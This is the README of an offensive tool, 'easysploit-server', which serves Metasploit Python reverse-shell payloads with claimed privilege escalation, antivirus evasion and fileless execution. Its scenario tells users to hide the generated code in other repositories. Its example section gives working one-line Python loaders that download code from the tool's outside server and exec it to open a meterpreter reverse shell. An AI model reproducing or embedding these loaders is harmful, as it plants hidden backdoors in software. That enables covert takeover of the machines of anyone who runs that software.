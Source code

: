 # easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.
Easysploit server is now working on https://easysploit.rocknroll17.com.

## Features
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion

## Scenario
1. **Generate Exploit Code using easysploit-client**  
Use easysploit-client to generate the exploit code. The generated code requests a payload from easysploit-server and executes it in a fileless manner.
2. **Embed the Exploit Code**  
Insert the generated code into other repositories or Python code to be executed on the target system.
3. **Execute on Target System**  
When the code is executed on the target system, it sends a request to easysploit-server for the payload.
4. **Fileless Execution**  
The easysploit-server delivers the payload and executes it filelessly in memory without leaving traces on the disk.

## Installation
You don't need to run this server.
It is already working on https://easysploit.rocknroll17.com.

## Usage
### Available Endpoints
1. **Standard python Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp`
2. **Admin Privilege Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp/admin`
  
You can try this request in https://easysploit.rocknroll17.com/docs

### Request Body
Both endpoints require the same JSON payload:
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```

## Example Code
Insert this code where you gonna exploit.
1. **Standard python Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
2. **Admin Privilege Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```

